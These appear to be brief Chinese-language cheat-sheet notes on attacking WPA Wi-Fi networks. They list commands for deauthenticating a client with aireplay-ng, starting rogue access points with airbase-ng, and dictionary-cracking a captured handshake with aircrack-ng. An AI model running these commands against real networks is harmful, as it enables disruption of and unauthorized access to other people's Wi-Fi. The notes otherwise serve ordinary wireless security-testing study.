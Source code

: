 
# wpa攻击

* wpa攻击

## wpa攻击

> aireplay-ng -0 2 -a ap的mac -c ap相连的mac wlan0mon

* psk攻击
```shell
    开启名为leon的ap
    airbase-ng --essid leon -c 11 wlan0mon
    -z 加密 4 -> wpa2
    airbase-ng --essid kifi -c 11 -z 4 wlan0mon
    		
	aircrack-ng -w pass.txt test.cap
```


